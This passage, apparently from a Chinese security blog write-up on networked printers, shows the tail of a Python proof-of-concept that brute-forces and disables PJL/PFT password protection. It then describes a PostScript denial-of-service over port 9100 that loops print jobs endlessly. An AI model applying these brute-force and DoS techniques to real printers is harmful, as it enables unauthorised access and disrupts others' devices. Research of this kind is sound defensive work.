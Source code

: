 ```
                                    print('PoC OK!')
                                    return
                                except ValueError:
                                    print('PoC NO!')
                                    return
                            except ValueError:
                                continue
                    except ValueError:
                        print('password disabled faild!')
                    finally:
                        s.close()
                        return
                except ValueError:
                    continue
    s.close()

if __name__ == '__main__':
    main()
```

pft使用此脚本爆破：![image.png](media/image.png-3.jpg)

[](http://blog.knownsec.com/wp-content/uploads/2015/08/1.png)

返回password disabled ok!，说明成功禁用PJL密码保护。

此脚本先爆破PFT密码保护，如果爆破成功，然后执行查询磁盘的PJL命令，当然也可只用PFT工具，文章后面部分会讲PFT。![image.png](media/image.png-6.jpg)

### DOS

当向打印机9100端口发送任何数据，打印机都可将其打印出来，文章前部分发现，9100端口还支持原始打印、PCL、PostScript和PJL，即可以通过9100端口执行PJL。当执行DOS，则可无限循环打印任务，导致打印任务不断执行，资源耗尽，无法执行打印操作。按个人理解简单点说，就是当发起打印任务时，打印机等任务发起结束，才会执行下一步的打印操作，如果一直循环打印任务，则无法到达下一步。通过几行PostScript代码实现DOS。
